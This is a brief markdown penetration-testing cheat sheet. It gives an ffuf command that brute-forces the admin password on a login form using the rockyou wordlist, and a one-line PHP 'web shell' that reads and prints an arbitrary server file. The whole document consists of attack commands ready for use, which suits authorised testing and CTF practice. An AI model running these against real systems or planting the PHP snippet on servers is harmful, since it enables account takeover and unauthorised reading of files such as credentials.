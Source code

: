 # Cheat Sheet

[← Go back to main page](./index.md)

## [ffuf](https://github.com/ffuf/ffuf)

### Simple login page

```sh
ffuf \
  -u https://website.com/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -X POST -d "username=admin&password=FUZZ" \
  -w /usr/share/wordlists/rockyou.txt:FUZZ  \
  -fr "Incorrect"
```
  
## Web shell

### PHP

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
